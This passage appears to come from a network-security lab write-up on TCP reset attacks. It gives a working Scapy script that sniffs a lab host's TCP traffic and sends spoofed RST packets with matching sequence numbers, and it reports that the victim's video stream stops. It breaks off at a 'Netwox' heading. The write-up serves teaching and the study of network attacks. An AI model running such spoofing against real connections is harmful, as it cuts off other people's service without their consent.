 ## Scapy

We can run a [`auto_rst`](./auto_rst.py) program to spoof an RST packet with proper `seq` and `ack` numbers whenever capturing a TCP packet from the user IP.

```python
from scapy.all import *

def spoof_tcp(pkt):
   ip  = IP(dst="10.0.2.5", src=pkt['IP'].dst)
   tcp = TCP(flags="R", seq=pkt['TCP'].ack,
                  dport=pkt['TCP'].sport, sport=pkt['TCP'].dport)
   spoofpkt = ip / tcp
   print("send a RST packet")
   send(spoofpkt, verbose=0)

pkt=sniff(filter='tcp and src host 10.0.2.5', prn=spoof_tcp)
```

Eventually, no video stream data can be gained from the server. The user cannot see any new video content.

![](./ytb_rst_1.png)

## Netwox
